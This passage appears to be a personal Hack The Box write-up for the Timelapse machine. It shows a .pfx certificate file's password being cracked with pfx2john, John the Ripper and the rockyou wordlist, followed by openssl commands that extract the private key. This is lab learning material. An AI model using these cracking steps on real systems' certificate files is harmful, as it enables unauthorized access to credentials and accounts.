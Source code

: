 ```bash
".G,
x0v0
legacyy@timelapse.htb0
}J5~f
t{(lz
5&8H
&4<6
kj@1
uUh2s

```

Something here, lets figure it out. After chatgpt i found that we can extract a cert from it using open ssl. Funnily enough another layer of protection. 

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out private.key
Enter Import Password:
Mac verify error: invalid password?
```

but in a masterclass of john the rippering, we can crack .pfx too, unreal. 

```bash
fx2john legacyy_dev_auth.pfx > hashpfx.txt
┌─[eu-dedivip-1]─[10.10.14.166]─[sm1gspl0it@htb-fw1xhk10ad]─[~]
└──╼ [★]$ john --wordlist=/usr/share/wordlists/rockyou.txt hashpfx.txt
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
***thuglegacy***       (legacyy_dev_auth.pfx)     
1g 0:00:00:30 DONE (2025-04-02 15:36) 0.03249g/s 105029p/s 105029c/s 105029C/s thuglife06..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

thugLegacy pword

so after some further trial and error we got there and extracted a cert, lessons learned. Most things can be cracked. And .pfx files will have a cert in that can be grabbed

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out private.key -legacy
Enter Import Password:
Enter PEM pass phrase:
Error outputting keys and certificates
40D7B9DB557F0000:error:14000065:UI routines:UI_set_result_ex:result too small:../crypto/ui/ui_lib.c:888:You must type in 4 to 1024 characters
40D7B9DB557F0000:error:1400006B:UI routines:UI_process:processing error:../crypto/ui/ui_lib.c:548:while reading strings
40D7B9DB557F0000:error:0480006D:PEM routines:PEM_def_callback:problems getting password:../crypto/pem/pem_lib.c:62:
40D7B9DB557F0000:error:07880109:common libcrypto routines:do_ui_passphrase:interrupted or cancelled:../crypto/passphrase.c:184:
40D7B9DB557F0000:error:1C80009F:Provider routines:p8info_to_encp8:unable to get passphrase:../providers/implementations/encode_decode/encode_key2any.c:116:
┌─[eu-dedivip-1]─[10.10.14.166]─[sm1gspl0it@htb-fw1xhk10ad]─[~]
└──╼ [★]$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out private.key -legacy -nodes
Enter Import Password:
┌─[eu-dedivip-1]─[10.10.14.166]─[sm1gspl0it@htb-fw1xhk10ad]─[~]
└──╼ [★]$ ls
box  cacert.der  Desktop  Documents  Downloads  hashpfx.txt  hash.txt  legacyy_dev_auth.pfx  Music  my_data  Pictures  private.key  Public  Templates  Videos  winrm_backup.zip
```